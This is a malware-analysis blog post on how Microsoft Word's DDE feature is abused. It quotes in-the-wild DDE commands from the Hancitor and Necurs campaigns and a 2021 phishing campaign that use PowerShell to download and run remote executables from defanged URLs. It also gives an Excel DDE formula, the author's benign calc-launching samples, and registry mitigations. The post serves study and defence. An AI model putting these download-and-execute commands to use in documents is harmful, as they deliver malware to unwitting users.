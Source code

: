 ```yaml
---
layout: post
title: Word DDE Malware
categories: [Malware, Word, DDE]
excerpt:  Microsoft Word supports a (mostly legacy) featured called DDE or "Dynamic Data Exchange" that provides an interface which can be used to launch new processes and download content. Not exactly what it was originally intended for, but a handy feature for malware authors.
---
```

(Estimated Reading Time: 11 minutes)

- [Word and DDEAUTO](#Word-and-DDEAUTO)
- [DDE in Past Malware](#DDE-in-Past-Malware)
- [My DDE Samples](#My-DDE-Samples)
- [Mitigations](#Mitigations)
- [References](#references)

## Word and DDEAUTO
 Microsoft Word supports a (mostly legacy) featured called DDE or "Dynamic Data Exchange" that provides an interface which can be used to launch new processes and download content. Not exactly what it was originally intended for, but a handy feature for malware authors. It does present several popup warnings for the user so is not a silent attack method. However, it does still seem to be used in the wild and has been used in the past so I thought it was worth a closer look and a consolidation of information. 

It is worth noting that DDE attacks are no more effective than macro-based attacks. DDE attacks also require the user to click through a series of warnings like below. In the samples I made, I had to click through 2 warnings on Office 2016. 

![warning1](/images/warning1.jpg)
![warning2](/images/warning2.jpg)

## DDE in Past Malware
 
Hancitor Malware used DDE, reported in Oct,2017 on isc.sans.edu. The doc used the following DDE command. SHA256 hash: f945105f5a0bc8ea0d62a28ee62883ffc14377b6abec2d0841e88935fd8902d3

```
 "DdE" c:\\Windows\\System32\\cmd.exe " /k powershell.exe (New-Object System.Net.WebClient).DownloadFile('hxxp://frontiertherapycenter.com/16.exe','%TEMP%\\tvs.exe');Start-Process '%TEMP%\\tvs.exe'"
```

Necurs Botnet usd DDE, also discussed on isc.sans.edu in Oct,2017. I was able to grab this file from virusshare.com. Interestingly, when I ran strings.exe and strings.py on the file the DDE command was not found in the strings. TrID listed this file as a .docx (ie the modern Office file format) SHA256 hash:  3fa85101873d1c3447594c309ea1e324beb578843e1fab7c05189830d2def126

```
DDE C:\\Windows\\System32\\cmd.exe "/k powershell -NoP -sta -NonI -w hidden $e=(New-Object System.Net.WebClient).DownloadString('hxxp://arkberg-design.fi/KJHDhbje71');powershell -e $e "  
```

More recently DDE was back in the news in Feb,2021 as part of a phishing atttack to download a RAT. The sample is the older OLE word format. The file name was e-Voucher.doc. When I viewed the sample with the strings command the DDE command can be seen easily. SHA256:de966b0d005dda776a6104f999f294d62c5b1f6b6e5c6f79de5135ec66ba4ee4

```
ddeauto "c:\\\\microsoft\\\\office\\\\word\\\\document\\\\..\\\\..\\\\..\\\\..\\\\windows\\\\system32\\\\cmd.exe" "/c powershell.exe (new-object system.net.webclient).downloadfile(' hxxp://fullhash.cloud/tmpl_c/mscalc.exe','%temp%\\mscalc.exe');start-process '%temp%\\mscalc.exe'"  \* mergeformat 
```

The website [labs.inquest.net](labs.inquest.net)
primarily focuses on deep inspection of office type documents. By visiting the site and searching for 'Heuristics' and alert on 'Microsoft Dynamic Data Exchange (DDE)' you can see a listing of all instances of DDE usage in their database. As of 3/1/21 it returned 10 results.

![inquest](/images/inquestlabs.jpg)

One of the samples in this list from inquestlabs was a bit interesting in that it obfuscated the typical C:\\windows\system32\\ path seen in above samples by using a reverse solidus char, as seen below.

![ddecmd](/images/ddecmd.jpg)

I also stubbled across these samples from [@GossiTheDog](https://twitter.com/GossiTheDog/status/918113076985163778) which had a bit more complexity to them then just downloading and executing something. This first one Creates a new user on the box, and the second one starts up IE to perform a download as seen below. I've changed the URL just so you can see the technique as the image is a bit hard to read.

```
DDEAUTO C:\\Windows\\Sysem32\\cmd.exe "/k powershell.exe $e=new-object -com internetexplorer.application; $e.visible=$true; $e.navigate2('https://www.google.com/'); powershell -e $e
```

![ddecmd](/images/iedl.jpg)

The usage of DDE is not limited to Word only. The following [linked blog](https://pentestlab.blog/2018/01/16/microsoft-office-dde-attacks/) has examples using Excel, outlook, outlock calendar appointments,etc. It is quite simple to launch calc from Excel as well using a command like this in the first row, first column of an excel sheet. I posted this Excel file on my github site as well.
```
=cmd|'/c calc.exe'!A1
```

## My DDE Samples

In my research on DDE I wanted to create a couple non-malicous samples for research that simply launch calc.exe. I have posted my samples on [my github site here](https://github.com/Cyber00011011/DDE_Samples). I created 4 Word documents. Two in the newer Word format, and 2 in the older format. These samples were made with Office 2016. At first, I didn't understand why I couldn't see the DDE command in the newer Word docx with strings.exe, but eventually realized I needed to unzip them first. It also helped reading this [blog from inquest.net on DDE](https://inquest.net/blog/2017/10/13/microsoft-office-dde-macro-less-command-execution-vulnerability).

Here is the sample cmd I used to launch calc.exe. This lines up with the newer sample seen in 2021. I tried, but could not get the DDE C:\\Windows\\System32\\cmd.exe style command to work for me in Office 2016. 

```
ddeauto "c:\\\\microsoft\\\\office\\\\word\\\\document\\\\..\\\\..\\\\..\\\\..\\\\windows\\\\system32\\\\cmd.exe" "/c powershell.exe start-process 'calc.exe'"  \* mergeformat 
```

## Mitigations

The [Microsoft Security Advisory](https://docs.microsoft.com/en-us/security-updates/securityadvisories/2017/4053440) on this topic recommends either disabling the DDE feature via a registry key below, or for customers on Windows 10 1709 or greater using the Attack Surface Reduction (ASR) Rules. 

* For Office 2010 and later versions, to disable the DDE feature via the Registry Editor

> [HKEY_CURRENT_USER\Software\Microsoft\Office\<version>\Word\Options\WordMail] DontUpdateLinks(DWORD)=1

* For Office 2007, to disable the DDE feature via the Registry Editor:

> [HKEY_CURRENT_USER\Software\Microsoft\Office\12.0\Word\Options\vpref] fNoCalclinksOnopen_90_1(DWORD)=1

## References
* Link to [Microsoft DDE Overview](https://docs.microsoft.com/en-us/windows/win32/dataxchg/dynamic-data-exchange-overviews)
* Link to [Microsoft Security Advisory](https://docs.microsoft.com/en-us/security-updates/securityadvisories/2017/4053440)
* Link to [Necurs Botnet malspam pushes Locky using DDE attack](https://isc.sans.edu/forums/diary/Necurs+Botnet+malspam+pushes+Locky+using+DDE+attack/22946)
* Link to [Dynamic Data Exchange DDE is Back in the Wild](https://isc.sans.edu/forums/diary/Dynamic+Data+Exchange+DDE+is+Back+in+the+Wild/27116)
* Link to [Migo Kedem blog on DDE](https://medium.com/@migokedem/malware-embedded-in-microsoft-office-documents-dde-exploit-macroless-4f197387ddbd)
* Link to [My DDE Non-malicious Samples](https://github.com/Cyber00011011/DDE_Samples)